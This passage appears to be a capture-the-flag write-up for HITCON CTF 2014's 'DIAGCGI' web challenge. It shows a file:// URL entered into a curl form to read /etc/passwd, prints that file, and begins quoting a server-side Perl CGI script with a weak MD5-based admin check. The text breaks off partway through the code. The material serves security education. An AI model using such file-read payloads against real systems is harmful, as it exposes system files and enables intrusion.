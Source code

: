 # HITCON CTF 2014: DIAGCGI

**Category:** Web
**Points:** 68
**Description:**

> http://54.92.127.128:16888/

## Write-up

Entering `file:///etc/passwd` in the form and clicking the `curl` button shows us:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
messagebus:x:102:106::/var/run/dbus:/bin/false
landscape:x:103:109::/var/lib/landscape:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
key:x:1001:1001::/home/key:
```

Let’s try to turn this file disclosure vulnerability into remote command execution. The default location for `cgi-bin` on Ubuntu (gained by reading `/etc/issue`) is `/usr/lib/cgi-bin`; as such we can read `/usr/lib/cgi-bin/dana-na.cgi` and get the following:

```perl
#!/usr/bin/perl -w

use CGI;
use Digest::MD5 qw(md5_hex);

$cgi = new CGI;
$SESSDIR = "/tmp/";
$sessfile = $cgi->cookie("diagsess");
$arg0 = $cgi->param("arg");
$action = $cgi->param("action");
$arg = &safestr($arg0);

if (! defined($sessfile) )
{
	if ( md5_hex($cgi->param("sechash")) =~ /^000000000000.*$/)
	{
		$sesshash{'user'} = 'admin';
	}
	else
```